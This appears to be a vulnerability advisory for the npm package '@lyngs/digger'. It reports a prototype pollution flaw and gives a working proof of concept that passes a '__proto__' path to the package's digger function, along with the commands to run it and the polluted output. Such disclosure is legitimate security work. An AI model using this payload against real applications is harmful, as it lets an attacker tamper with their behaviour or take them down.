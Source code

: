 # Description

`@lyngs/digger` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var digger = require("@lyngs/digger")
console.log("Before : " + {}.polluted);
digger.digger({}, '__proto__.polluted', 'Yes! Its Polluted', {extend: true})
console.log("After : " + {}.polluted);

```
2. Execute the following commands in another terminal:

```
npm install @lyngs/digger # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
